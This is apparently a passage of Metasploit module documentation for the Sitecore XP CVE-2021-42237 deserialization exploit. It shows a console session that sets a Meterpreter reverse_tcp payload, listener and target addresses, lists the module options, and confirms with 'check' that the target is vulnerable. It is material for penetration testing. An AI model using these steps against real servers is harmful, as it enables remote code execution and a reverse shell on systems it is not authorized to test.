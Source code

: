 
## Options

## Scenarios

### Sitecore 8.2 rev. 180406 on Server 2016 - PowerShell Stager

```
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/http/sitecore_xp_cve_2021_42237
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set LHOST 172.20.223.94
LHOST => 172.20.223.94
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set RHOSTS 172.20.211.198
RHOSTS => 172.20.211.198
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set VHOST NewInstance1
VHOST => NewInstance1
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > show options

Module options (exploit/windows/http/sitecore_xp_cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, proces
                                        s, none)
   LHOST     172.20.223.94    yes       The listen address (an interface may be specified
                                        )
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager


msf exploit(windows/http/sitecore_xp_cve_2021_42237) > check
[*] 172.20.211.198:80 - The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
```